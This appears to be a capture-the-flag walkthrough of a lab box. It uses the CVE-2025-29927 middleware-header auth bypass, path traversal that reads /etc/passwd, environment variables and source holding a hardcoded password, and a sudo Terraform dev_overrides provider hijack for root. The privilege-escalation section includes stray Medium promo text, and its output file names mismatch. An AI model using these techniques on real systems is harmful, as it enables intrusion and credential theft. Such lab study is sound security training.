



## Enumeration

> - Lets Sscan Ports
```sh
❯ nmap previous.htb -A    

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: PreviousJS
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

> - BruteForce Directory
```sh
❯ dirsearch -u http://previous.htb 

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12289

Target: http://previous.htb/

[10:42:11] Scanning:                                                                                                                            
[10:42:44] 307 -    40B - /api.json  ->  /api/auth/signin?callbackUrl=%2Fapi.json
[10:42:44] 307 -    39B - /api.php  ->  /api/auth/signin?callbackUrl=%2Fapi.php
[10:42:44] 307 -    40B - /api-docs  ->  /api/auth/signin?callbackUrl=%2Fapi-docs
[10:42:44] 307 -    35B - /api  ->  /api/auth/signin?callbackUrl=%2Fapi
[10:42:44] 307 -    39B - /api-doc  ->  /api/auth/signin?callbackUrl=%2Fapi-doc
[10:42:44] 307 -    39B - /api.log  ->  /api/auth/signin?callbackUrl=%2Fapi.log
[10:42:44] 307 -    60B - /api/2/issue/createmeta  ->  /api/auth/signin?callbackUrl=%2Fapi%2F2%2Fissue%2Fcreatemeta
[10:42:44] 307 -    38B - /api.py  ->  /api/auth/signin?callbackUrl=%2Fapi.py
[10:42:44] 307 -    41B - /api/api  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fapi
[10:42:44] 307 -    46B - /api/api-docs  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fapi-docs
[10:42:44] 307 -    52B - /api/cask/graphql  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fcask%2Fgraphql
[10:42:44] 307 -    45B - /api/apidocs  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fapidocs
[10:42:44] 307 -    49B - /api/config.json  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fconfig.json
[10:42:44] 307 -    60B - /api/apidocs/swagger.json  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fapidocs%2Fswagger.json
[10:42:44] 307 -    43B - /api/batch  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fbatch
[10:42:44] 307 -    54B - /api/application.wadl  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fapplication.wadl
[10:42:44] 307 -    44B - /api/config  ->  /api/auth/signin?callbackUrl=%2Fapi%2Fconfig

<skip>
```

- You can see the homepage is PreviousJS. 
> 

- Then click Get Started to go to the login page 
> 

### CVE-2025-29927
- Search for related vulnerabilities and a way to find a bypass of identity authentication .
> 

- The exploit is to add the following to the HTTP header.

```nodejs
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

### Param Fuzz

- However, it seems that there is no direct bypass to login, and here is scanning for /api directory with interfaces that require authentication.
```sh
❯ dirsearch -u http://previous.htb/api -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'                   ⏎

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12289

Target: http://previous.htb/

[20:16:22] Scanning: api/                                                                                                                       
[20:16:24] 308 -    22B - /api/%2e%2e//google.com  ->  /api/%2E%2E/google.com
[20:16:43] 400 -    64B - /api/auth/admin                                   
[20:16:43] 400 -    64B - /api/auth/adm
[20:16:43] 400 -    64B - /api/auth/login.asp
[20:16:43] 400 -    64B - /api/auth/login.php
[20:16:43] 400 -    64B - /api/auth/login
[20:16:43] 400 -    64B - /api/auth/login.aspx                              
[20:16:43] 400 -    64B - /api/auth/login.jsp
[20:16:43] 400 -    64B - /api/auth/login.htm
[20:16:43] 400 -    64B - /api/auth/logon
[20:16:43] 400 -    64B - /api/auth/login.html
[20:16:43] 302 -     0B - /api/auth/signin  ->  /signin?callbackUrl=http%3A%2F%2Flocalhost%3A3000
[20:16:43] 308 -    28B - /api/axis2-web//HappyAxis.jsp  ->  /api/axis2-web/HappyAxis.jsp
[20:16:43] 308 -    23B - /api/axis//happyaxis.jsp  ->  /api/axis/happyaxis.jsp
[20:16:43] 308 -    34B - /api/axis2//axis2-web/HappyAxis.jsp  ->  /api/axis2/axis2-web/HappyAxis.jsp
[20:16:46] 308 -    56B - /api/Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  /api/Citrix/AccessPlatform/auth/clientscripts/cookies.js
[20:16:50] 400 -    28B - /api/download                                     
[20:16:51] 308 -    43B - /api/engine/classes/swfupload//swfupload.swf  ->  /api/engine/classes/swfupload/swfupload.swf
[20:16:51] 308 -    46B - /api/engine/classes/swfupload//swfupload_f9.swf  ->  /api/engine/classes/swfupload/swfupload_f9.swf
[20:16:52] 308 -    31B - /api/extjs/resources//charts.swf  ->  /api/extjs/resources/charts.swf
[20:16:55] 308 -    41B - /api/html/js/misc/swfupload//swfupload.swf  ->  /api/html/js/misc/swfupload/swfupload.swf
                                                                             
Task 
Completed                                                                                                                               
```

- One of the /api/download paths looks suspicious, try parametric blasting

```sh
❯ ffuf -u 'http://previous.htb/api/download?FUZZ=a' -w /usr/share/fuzzDicts/paramDict/AllParam.txt -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -mc all -fw 2

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://previous.htb/api/download?FUZZ=a
 :: Wordlist         : FUZZ: /usr/share/fuzzDicts/paramDict/AllParam.txt
 :: Header           : X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 2
________________________________________________

example                 [Status: 404, Size: 26, Words: 3, Lines: 1, Duration: 110ms]
:: Progress: [8603/74332] :: Job [1/1] :: 242 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

- It is found that there is an example parameter with a special reflection.
  
```sh
❯ curl 'http://previous.htb/api/download?example=aaa' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -v
* Host previous.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.83
*   Trying 10.10.11.83:80...
* Connected to previous.htb (10.10.11.83) port 80
* using HTTP/1.x
> GET /api/download?example=aaa HTTP/1.1
> Host: previous.htb
> User-Agent: curl/8.14.1
> Accept: */*
> X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
> 
* Request completely sent off
< HTTP/1.1 404 Not Found
< Server: nginx/1.18.0 (Ubuntu)
< Date: Thu, 28 Aug 2025 12:06:49 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 26
< Connection: keep-alive
< ETag: "c8wflmak5q"
< Vary: Accept-Encoding
< 
* Connection #0 to host previous.htb left intact
{"error":"File not found"}#      
```

## LFI

- As you can see through curl, it seems that this example parameter is used to download the file, here is a direct attempt to /etc/passwd
 
```sh
❯ curl 'http://previous.htb/api/download?example=../../../../etc/passwd' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'   
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

- Find two users, node and nextjs, look at the environment variable, and find that the startup path is /app.
 
```sh
❯ curl 'http://previous.htb/api/download?example=../../../../proc/self/environ' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'  --output -
NODE_VERSION=18.20.8
HOSTNAME=0.0.0.0
YARN_VERSION=1.22.22S
HLVL=1
PORT=3000
HOME=/home/nextjsPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NEXT_TELEMETRY_DISABLED=1
PWD=/app
NODE_ENV=production#
```
- Search for a directory example of nextjs
```sh
my-next-app/
├── app/
│   ├── layout.js        
│   ├── page.js          
│   ├── about/
│   │   ├── layout.js    
│   │   └── page.js      
│   ├── blog/
│   │   ├── layout.js   
│   │   ├── page.js      
│   │   └── [slug]/
│   │       └── page.js  
│   └── dashboard/
│       ├── layout.js  
│       └── page.js      
├── public/
│   ├── logo.png         
│   └── favicon.ico   
├── node_modules/       
├── package.json       
├── next.config.js       
└── .next/              
```
- Especially this .next/ directory, which is expanded in detail below.
```sh
/app/.next
├── build-manifest.json      
├── prerender-manifest.json  
├── server/
│   ├── pages/              
│   │   └── api/         
│   └── app/                
├── static/
│   └── chunks/              
├── cache/                   
└── routes-manifest.json    
```
- You can see the information about the routing configuration directly from this directory.
```sh
❯ curl 'http://previous.htb/api/download?example=../../../../app/.next/routes-manifest.json' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -s | jq
{
  "version": 3,
  "pages404": true,
  "caseSensitive": false,
  "basePath": "",
  "redirects": [
    {
      "source": "/:path+/",
      "destination": "/:path+",
      "internal": true,
      "statusCode": 308,
      "regex": "^(?:/((?:[^/]+?)(?:/(?:[^/]+?))*))/$"
    }
  ],
  "headers": [],
  "dynamicRoutes": [
    {
      "page": "/api/auth/[...nextauth]",
      "regex": "^/api/auth/(.+?)(?:/)?$",
      "routeKeys": {
        "nxtPnextauth": "nxtPnextauth"
      },
      "namedRegex": "^/api/auth/(?<nxtPnextauth>.+?)(?:/)?$"
    },
    {
      "page": "/docs/[section]",
      "regex": "^/docs/([^/]+?)(?:/)?$",
      "routeKeys": {
        "nxtPsection": "nxtPsection"
      },
      "namedRegex": "^/docs/(?<nxtPsection>[^/]+?)(?:/)?$"
    }
  ],
  "staticRoutes": [
    {
      "page": "/",
      "regex": "^/(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/(?:/)?$"
    },
    {
      "page": "/docs",
      "regex": "^/docs(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs(?:/)?$"
    },
    {
      "page": "/docs/components/layout",
      "regex": "^/docs/components/layout(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs/components/layout(?:/)?$"
    },
    {
      "page": "/docs/components/sidebar",
      "regex": "^/docs/components/sidebar(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs/components/sidebar(?:/)?$"
    },
    {
      "page": "/docs/content/examples",
      "regex": "^/docs/content/examples(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs/content/examples(?:/)?$"
    },
    {
      "page": "/docs/content/getting-started",
      "regex": "^/docs/content/getting\\-started(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs/content/getting\\-started(?:/)?$"
    },
    {
      "page": "/signin",
      "regex": "^/signin(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/signin(?:/)?$"
    }
  ],
  "dataRoutes": [],
  "rsc": {
    "header": "RSC",
    "varyHeader": "RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch",
    "prefetchHeader": "Next-Router-Prefetch",
    "didPostponeHeader": "x-nextjs-postponed",
    "contentTypeHeader": "text/x-component",
    "suffix": ".rsc",
    "prefetchSuffix": ".prefetch.rsc",
    "prefetchSegmentHeader": "Next-Router-Segment-Prefetch",
    "prefetchSegmentSuffix": ".segment.rsc",
    "prefetchSegmentDirSuffix": ".segments"
  },
  "rewriteHeaders": {
    "pathHeader": "x-nextjs-rewritten-path",
    "queryHeader": "x-nextjs-rewritten-query"
  },
  "rewrites": []
}
```
- There is the certification logic part that we care about,/api/auth/[...nextauth]
```sh 
❯ curl 'http://previous.htb/api/download?example=../../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'   

---
"use strict";
const NextServerRuntime = require("next/dist/compiled/next-server/pages-api.runtime.prod.js");
const CredentialsProvider = require("next-auth/providers/credentials");
const NextAuth = require("next-auth");

// ==== 工具函数 ====
function M(n, r) {
  return r in n
    ? n[r]
    : "then" in n && typeof n.then === "function"
    ? n.then(n => M(n, r))
    : typeof n === "function" && r === "default"
    ? n
    : void 0;
}

const RouteKind = (() => {
  const e = {};
  e.PAGES = "PAGES";
  e.PAGES_API = "PAGES_API";
  e.APP_PAGE = "APP_PAGE";
  e.APP_ROUTE = "APP_ROUTE";
  e.IMAGE = "IMAGE";
  return e;
})();

// ==== NextAuth 配置 ====
const authOptions = {
  session: {
    strategy: "jwt"
  },
  providers: [
    CredentialsProvider({
      name: "Credentials",
      credentials: {
        username: { label: "User", type: "username" },
        password: { label: "Password", type: "password" }
      },
      authorize: async (credentials) => {
        if (
          credentials?.username === "jeremy" &&
          credentials.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
        ) {
          return { id: "1", name: "Jeremy" };
        }
        return null;
      }
    })
  ],
  pages: {
    signIn: "/signin"
  },
  secret: process.env.NEXTAUTH_SECRET
};

// ====  API ====
const authHandler = NextAuth(authOptions);
const config = M({ default: authHandler }, "config");
const defaultExport = M({ default: authHandler }, "default");

const { PagesAPIRouteModule } = require("next/dist/compiled/next-server/pages-api.runtime.prod.js");

const routeModule = new PagesAPIRouteModule({
  definition: {
    kind: RouteKind.PAGES_API,
    page: "/api/auth/[...nextauth]",
    pathname: "/api/auth/[...nextauth]",
    bundlePath: "",
    filename: ""
  },
  userland: { default: authHandler }
});

module.exports = {
  default: defaultExport,
  config,
  routeModule
};
```
## SSH

- There are user credentials we want.
```sh
username: jeremy
password: MyNameIsJeremyAndILovePancakes
```
- You can log in here.

## PrivSec
```sh
User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply
```
- Moreover, main.tf file validated that the source path was from /root/examples
```sh
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
    }
  }
}

variable "source_path" {
  type = string
  default = "/root/examples/hello-world.ts"

  validation {
    condition = strcontains(var.source_path, "/root/examples/") && !strcontains(var.source_path, "..")
    error_message = "The source_path must contain '/root/examples/'."
  }
}

provider "examples" {}

resource "examples_example" "example" {
  source_path = var.source_path
}

output "destination_path" {
  value = examples_example.example.destination_path
}
```
> There was no evident way to escalate privileges and the configuration file followed the path validation as suggested and used by many in the industry for Terraform.

> Despite this, privilege escalation was achieved using the following process.
Get Toshith’s stories in your inbox

> Join Medium for free to get updates from this writer.

> First, I created a custom Terraform Provider in Go — terraform-provider-examples.go, with the following content demonstrating root (superuser) access.
```go
package main

import (
    "os"
    "os/exec"
)

func main() {
    cmd := exec.Command("cat", "/root/root.txt")
    output, _ := cmd.Output()
    os.WriteFile("/tmp/root_flag.txt", output, 0644)
}
```
> Next, I compiled it on my local machine itself.

> GOOS=linux GOARCH=amd64 go build -o terraform-provider-examples terraform-provider-examples.go

> Then, I moved on to the target machine, created a directory — /tmp/provider, placed the compiled binary in it and created a new configuration file for Terraform in the /tmp directory.

    The naming of the files such as the Provider was done according to the rules in the main configuration files found in /opt/examples directory.
```sh
mkdir -p /tmp/provider

# Download and place the custom provider at /tmp/provider

chmod +x /tmp/provider/terraform-provider-examples

cat > /tmp/exp.rc << 'EOF'
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/tmp/provider"
  }
  direct {}
}
EOF
```
> And finally, the exploit worked because Terraform uses the environment variables and prioritizes them even if -chdir is used or in other words, run from another directory.
```sh
export TF_CLI_CONFIG_FILE=/tmp/exp.rc

sudo /usr/bin/terraform -chdir\=/opt/examples apply
```
> This successfully executed the command in the custom Provider which could be verified by reading the file.
```sh
cat /tmp/root.txt
```

### Congratulation !!!